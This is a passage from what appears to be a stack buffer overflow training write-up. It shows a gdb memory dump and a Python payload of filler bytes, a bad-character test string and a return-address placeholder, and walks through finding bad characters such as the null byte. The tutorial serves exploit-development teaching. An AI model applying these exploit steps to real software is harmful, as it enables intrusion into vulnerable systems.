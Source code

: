 ```
```
There we see output like following
```
<snip...>

0xffffd2b0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00  
0xffffd2b8:     0x00    0x00    0x00    0x2f    0x68    0x6f    0x6d    0x65  
0xffffd2c0:     0x2f    0x68    0x74    0x62    0x2d    0x73    0x74    0x75  
0xffffd2c8:     0x64    0x65    0x6e    0x74    0x2f    0x62    0x6f    0x77  
0xffffd2d0:     0x00   # --> From here our suplied values starts 0x55  0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd2d8:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd2e0:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd2e8:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55 

<snip...>

0xffffd5a8:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd5b0:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd5b8:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd5c0:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd5c8:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd5d0:     0x55    0x55    0x55    0x55    0x55    0x55    0x55    0x55  
0xffffd5d8:     0x55    0x55    0x55    0x55    0x55  # ---> From Here our Bad Characters starts   0x01    0x02    0x03  
0xffffd5e0:     0x04    0x05    0x06    0x07    0x08 # ---> From here we expect "0x09"   0x00    0x0b    0x0c  
---Type <return> to continue, or q <return> to quit---  
0xffffd5e8:     0x0d    0x0e    0x0f    0x10    0x11    0x12    0x13    0x14  
0xffffd5f0:     0x15    0x16    0x17    0x18    0x19    0x1a    0x1b    0x1c  
0xffffd5f8:     0x1d    0x1e    0x1f    0x00    0x21    0x22    0x23    0x24  
0xffffd600:     0x25    0x26    0x27    0x28    0x29    0x2a    0x2b    0x2c  
0xffffd608:     0x2d    0x2e    0x2f    0x30    0x31    0x32    0x33    0x34  
0xffffd610:     0x35    0x36    0x37    0x38    0x39    0x3a    0x3b    0x3c  
0xffffd618:     0x3d    0x3e    0x3f    0x40    0x41    0x42    0x43    0x44  
0xffffd620:     0x45    0x46    0x47    0x48    0x49    0x4a    0x4b    0x4c  
0xffffd628:     0x4d    0x4e    0x4f    0x50    0x51    0x52    0x53    0x54
```
So here we see when our supplied values is start after that all values contains `\x55` that is our buffer value we supplied we see that when they ends then our bad characters starts and they starts with `0x01` but they have to start with `0x00`(Null byte) so that means they skip that byte and that's our first bad character. So now we have to remove it from our character list so when removing that character our `run` would like this 
```
(gdb) run $(python -c 'print "\x55"*(1040-256-4)+ "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10  
\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2  
d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x  
4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\  
x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83  
\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa  
0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\x  
bd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\  
xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6  
\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"+ "\x66"*4')
```